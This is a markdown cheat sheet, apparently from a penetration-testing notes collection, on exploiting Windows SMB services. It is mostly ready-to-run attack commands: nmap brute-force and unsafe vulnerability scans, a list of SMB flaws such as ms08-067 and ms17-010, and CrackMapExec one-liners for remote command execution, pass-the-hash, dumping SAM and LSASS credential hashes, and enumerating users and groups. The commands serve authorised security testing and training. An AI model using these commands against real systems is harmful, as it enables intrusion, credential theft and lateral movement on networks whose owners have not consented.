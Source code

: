 
# Exploitation

## Brute Force

- [NSE (Nmap Scripting Engine)](../Tools/nmap.md#NSE%20(Nmap%20Scripting%20Engine))

```bash
nmap --script smb-brute -p 445 <IP>
ridenum.py <IP> 500 50000 /root/passwds.txt # Get usernames bruteforcing that rids and then try to bruteforce eachusername
```

## Common Vulnerabilities

```bash
nmap -p 139,445 10.11.1.75 --script=smb-vuln* --script-args=unsafe=1
```

- ms06-025
- ms07-029
- ms08-067
- ms10-054
- ms10-061
- ms17-010
- cve2009-3103
- cve-2017-7494

## Execute commands

[CrackMapExec > SMB](../Tools/CrackMapExec.md#SMB)

```bash
crackmapexec smb 192.168.10.11 -u Administrator -p 'P@ssw0rd' -X '$PSVersionTable' #Execute Powershell
crackmapexec smb 192.168.10.11 -u Administrator -p 'P@ssw0rd' -x whoami #Excute cmd
crackmapexec smb 192.168.10.11 -u Administrator -H <NTHASH> -x whoami #Pass-the-Hash
# Using --exec-method {mmcexec,smbexec,atexec,wmiexec}

crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --sam #Dump SAM
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --lsa #Dump LSASS in memmory hashes
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --sessions #Get sessions (
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --loggedon-users #Get logged-on users
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --disks #Enumerate the disks
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --users #Enumerate users
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --groups # Enumerate groups
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --local-groups # Enumerate local groups
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --pass-pol #Get password policy
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --rid-brute #RID brute
```
